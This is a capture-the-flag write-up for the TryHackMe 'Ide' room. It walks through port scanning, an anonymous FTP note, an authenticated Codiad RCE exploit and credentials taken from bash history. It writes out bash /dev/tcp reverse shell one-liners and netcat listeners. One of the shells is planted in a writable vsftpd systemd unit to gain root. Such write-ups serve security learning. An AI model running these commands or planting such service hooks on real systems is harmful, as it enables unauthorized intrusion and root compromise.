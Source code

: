 ## Ide 

Room link: https://tryhackme.com/room/ide

# Scanning 
I ran an aggressive nmap scan to begin. It looked like there are 3 services running on the system, FTP, SSH, and HTTP. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-14 20:17 EDT
Nmap scan report for [Remote IP]
Host is up (0.094s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.1.236
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
```
A full nmap scan showed a random high port as well. 
```
ajread@aj-ubuntu:~/TryHackMe/thm_writeups_publish$ nmap -p- [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-30 18:46 EDT
Nmap scan report for [Remote IP]
Host is up (0.090s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 239.50 seconds
```

# Enumeration 
I first looked into the anonymous ftp login. There was a file called ```-``` nested within a the ```...``` directory. 
```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> cd ./-
550 Failed to change directory.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (1.1163 MB/s)
```
I pulled the ```-``` file from the FTP server and it appeared to be a note. The note itself said the following: 
```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
So, I can infer that there are two users named ```john``` and ```drac```. User ```john``` must have a simple password. Before looking back at the random open high port, I ran hydra against the FTP and SSH service with username ```john``` and a simple password list. I was unsuccessful so I knew the credentials must be used somewhere else on the system. 

# Initial Access
I checked out the random high port and found that it was a Codiad IDEA. I navigated to the Codiad service running on port 62337 and logged in with credentials ```john:[REDACTED]```. I found a RCE on exploitdb: ```https://www.exploit-db.com/exploits/49705``` that requires authentication. The RCE appears to be able to write to Codiad within ```components/filemanager/controller.php``` and execute system commands like ```nc``` or ```/bin/bash``` that can be used to call back to a remote machine.

Before running the exploit, it required me to set up a VPS for the connection. So, in one terminal, I set up reverse shell in bash that would pipe to another listener on my machine from the remote connection. 
```
echo 'bash -c "bash -i >/dev/tcp/[Local IP]/10000 0>&1 2>&1"' | nc -lnvp 9999
```
In another terminal on my local machine, I set up the listener on port 10000 to receive the final reverse shell from the remote machine. 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
```
After everything was set up, I ran the exploit and pointed it as the Codiad IDE with the ```john:[REDACTED]``` credentials.
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 49705.py http://[Remote IP]:62337/ john [REDACTED] [Local IP] 9999 linux
```
And, I received a shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
Listening on 0.0.0.0 10000
Connection received on [Remote IP] 57402
bash: cannot set terminal process group (939): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
But, I was only the ```www-data``` user. I needed to move to the ```drac``` user in order to see the user flag. 
```
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
After some looking around, I found credentials within user ```drac``` bash history. 
```
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p [REDACTED]
```
I used ssh to log in with the credentials above and found the flag! 
```
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
drac@ide:~$ wc -c user.txt
33 user.txt
```
# Privilege Escalation 
Using  ```sudo -l``` it looked like I could restart vsftpd as root. 
```
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
I looked at the ```vsftpd.service``` file and noticed that I had write permissions. Since ```ExecStartPre``` contains additional commands that are run after ```ExecStart```, I added another ```ExecStartPre``` field to execute a reverse shell using bash after the original ```ExecStartPre```. (This page was a great resource: ```https://www.freedesktop.org/software/systemd/man/systemd.service.html``` if interested). 
```
drac@ide:/lib/systemd/system$ cat vsftpd.service 
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty
ExecStartPre=-/bin/bash -c "bash -i >& /dev/tcp/[Local IP]/8888 0>&1"

[Install]
WantedBy=multi-user.target
```
I started a listener on my local machine to catch the elevated reverse shell on port 8888 above.
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
```
Then, I had to reload the daemon on the remote machine before restarting vsftpd. 
```
drac@ide:/lib/systemd/system$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
```
Finally, I was able to restart the service as root on the remote machine. 
```
drac@ide:/lib/systemd/system$ sudo service vsftpd restart 
```
And it called back to my local machine with an elevated shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on [Remote IP] 35294
bash: cannot set terminal process group (1683): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
